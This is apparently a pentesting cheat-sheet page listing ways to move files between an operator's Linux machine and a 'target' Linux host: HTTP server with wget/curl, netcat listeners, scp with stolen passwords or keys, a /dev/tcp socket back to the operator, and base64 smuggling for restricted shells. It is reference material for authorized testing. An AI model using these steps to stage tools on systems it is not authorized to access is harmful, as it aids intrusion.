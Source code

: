 ```yaml
---
title: "File Transfer (Linux To Linux)"
date: 2024-6-26
tags: ["file transfer", "nc", "scp"]
---
```


{{< tab set1 tab1 active >}}HTTP{{< /tab >}}
{{< tab set1 tab2 >}}nc{{< /tab >}}
{{< tab set1 tab3 >}}scp{{< /tab >}}
{{< tab set1 tab4 >}}PIPE{{< /tab >}}
{{< tab set1 tab5 >}}Base64{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Start a local HTTP server
python3 -m http.server <LOCAL_PORT>
```

```console
# In target Linux machine
wget <LOCAL_IP>/<FILE>
```

```console
# In target Linux machine
curl <LOCAL_IP>/<FILE> -o <REMOTE_DEST_PATH>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
# In our local Linux machine
nc -lvnp <LOCAL_PORT> < <FILE>
```

```console
# In target Linux machine
nc -w3 <LOCAL_IP> <LOCAL_PORT> > <FILE>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

#### Remote to Local

```console
# If you have target password
scp <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

```console
# If you have a ssh key
scp -i id_rsa <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

</div>

#### Local to Remote

<div>

```console
# If you have target password
scp <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

```console
# If you have a ssh key
scp -i id_rsa <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

<div>

#### Local to Remote

```console
# In our local Linux machine
cat <FILE> | nc -lnvp <LOCAL_PORT>
```

```console
# In target Linux machine
exec 3<>/dev/tcp/<LOCAL_IP>/<LOCAL_PORT>
```

```console
# Ctrl+C to interrupt after some time
cat <&3 > <FILE>
```

```console
# Check
md5sum <FILE>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

<div>

#### Small binary

```console
# Base64 encode binary
cat <FILE> | base64 -w0
```

```console
# Copy and paste the base64 encoded binary
echo -n '<BASE64_FILE>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

</div>

{{< /tabcontent >}}

<br>